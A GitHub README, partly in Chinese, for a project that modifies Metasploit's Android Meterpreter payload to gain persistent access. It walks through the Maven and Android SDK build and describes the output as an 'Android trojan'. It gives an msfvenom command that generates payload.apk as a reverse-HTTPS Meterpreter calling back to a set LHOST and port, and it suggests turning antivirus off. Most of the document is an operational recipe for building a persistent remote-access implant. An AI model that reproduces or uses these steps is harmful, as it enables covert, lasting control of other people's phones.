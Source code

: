 https://github.com/xiaohuanshu/persistent-androidpayload
修改Metasploit安卓Payload源码以实现持久化访问

# Building the Java and Android Meterpreter
只要下载java文件，AS打开androidpayload文件夹，但是mvn命令生成jar文件是在java目录下，而不是androidpayload目录——会出错。
pom.xml有感叹号错误不必理会，mvn package命令会下载缺失Maven文件

1. 根据自身的环境安装Maven(3.5以上版本) 和 Java8

apt-get update

apt-get -y install maven

update-alternatives  --config mvn

update-alternatives  --config javac


2. 安装 [Android SDK](https://developer.android.com/sdk/index.html), 和 [Android NDK](https://developer.android.com/tools/sdk/ndk/index.html) 

3. 安装 Android SDK Platforms最新29, 10 and 19, 并更新 "Android SDK Tools" 和 "Android SDK Platform-tools"

a. AS->File->Setting->System Setting->Android SDK->SDK Platforms

下载Android SDK Platforms——API version 最新的SDK（compileSdkVersion）29+10 +19

b. AS->File->Setting->System Setting->Android SDK->SDK Tools->Show Package Details打勾, a和b这里没有安装齐全mvn package会彻底Erro

Android SDK Build Tools

Android SDK Platform-Tools 29.0.5
Android SDK Tools 26.1.1
NDK(Side by side)20.0.055
Cmake 3.10.
Android SDK Build-Tools 25.0.0(AhMyth)
Android Emulator 29.2.11

4. 编译AndroidPayload for Metasploit ... SUCCESS 即成功,并把编译新生成的/java/target/data中android文件夹——复制到Metasploit-framework根目录下的data文件夹。
Android 木马：

cd metasploit-payloads/tree/master/java

mvn package -Dandroid.sdk.path=/root/Android/sdk -Dandroid.release=true -P deploy

返回成功信息：

[INFO] AndroidPayload for Metasploit ...................... SUCCESS [  8.920 s]

[INFO] Android Meterpreter ................................ FAILURE [  4.153 s]

[INFO] BUILD FAILURE

cd /java/target/data

cp -r android /usr/share/metasploit-framework/data

java木马：mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package



5.通过msfvenom命令生成APK:

msfvenom

search android

msfvenom -l payloads

msfvenom -p android/meterpreter_reverse_https  LHOST=10.10.10.102 LPORT=4444 -o payload.apk


返回信息：如果开头出现了这三个WARNING，说明msfvenom生成APK时使用的是我们修改后的版本。 payload.apk在root目录,即主文件夹

WARNING: Local file /usr/share/metasploit-framework/data/android/apk is being used

WARNING: Local files may be incompatible with the Metasploit Framework

WARNING: Local file /usr/share/metasploit-framework/data/android/apk/classes.dex is being used


## Building on OSX
```
brew cask install caskroom/versions/java8
brew cask install android-sdk
brew install maven
sdkmanager --licenses
sdkmanager "platforms;android-10"
sdkmanager "platforms;android-19"

#cd metasploit-payloads/java
mvn package -Dandroid.sdk.path=/usr/local/share/android-sdk -Dandroid.release=true -P deploy
```

## Compiling JavaPayload and Java Meterpreter manually

To compile JavaPayload (a Java stager / code loader) and Java Meterpreter for
Metasploit, you need Maven 3.1 or above (Maven 3.5 works at the time of this
writing), and a copy of JDK 8.0 or later. Ensure that `mvn` and `javac` are in
your path and work. Then run

```
mvn package
```

to package all the files needed for Java meterpreter. The two files that you will be generated are:

```
meterpreter/meterpreter/target/meterpreter.jar
meterpreter/stdapi/target/ext_server_stdapi.jar
```

To get Metasploit to use these files, you need to place them in a place where
it can find them. To automatically build and install these files into
Metasploit Framework for testing, run:

```
mvn -P deploy package
```

This will package all the files and copy them into the correct place for
Metasploit, assuming that the metasploit-framework repository is checked out in
an adjacent directory to this one. (`../../metasploit-framework/data/java`). If
you get spurious compilation errors, make sure that there is an exclude rule in
your antivirus for the Metasploit directory (or that your antivirus is
disabled).

If the path to your metasploit framework repository is not
`../../metasploit-framework`, but for example (with Kali Linux)

`/usr/share/metasploit-framework/`, set the deploy.path directive like so:

```
mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package
```

When you are editing this or any other Meterpreter, you will want to make sure
that your copy of metasploit-framework is also up-to-date. We occasionally
update the network protocol between Metasploit and its Payloads, and if the two
do not match, things will probably not work. Metasploit will warn you the first
time it stages a development payload that it is doing so, and that the payload
and Metasploit framework may be incompatible.

Each time you make a change to your code, you must build and deploy the files
into metasploit-framework for it to see the updates. It is not necessary to
restart msfconsole when updating payloads however, as they are read from disk
each time. So, a reasonable strategy when debugging is to leave msfconsole
running with `exploit/multi/handler`, and just install and restage payloads as
needed.

When you are done editing and want to revert Metasploit to use the builtin
payloads, simply delete `data/meterpreter/*.jar` and `data/meterpreter/java`
from your Metasploit framework directory. It will then fall back to the
versions bundled with the metasploit-payloads Ruby gem.

# IDE Support

In case you want to edit/debug JavaPayload for Metasploit or Java Meterpreter
with an IDE, Maven provides plugins to auto-generate project files for your
favourite environment (at least for Eclipse, Netbeans or IntelliJ).

I use Eclipse, so to generate project files I use

```
mvn eclipse:eclipse
```

This will generate project files that can be imported via

**File->Import->Existing Projects into Workspace**

into your Eclipse workspace.

(Note that if this is your first Maven project you want to use in Eclipse, you
also have to run

```
mvn -Declipse.workspace=/path/to/your/workspace eclipse:configure-workspace
```

to set up path variables like `M2_REPO` to point to the correct location.)

For NetBeans or IntelliJ IDEA, refer to the documentation at

http://maven.apache.org/netbeans-module.html
http://maven.apache.org/plugins/maven-idea-plugin/



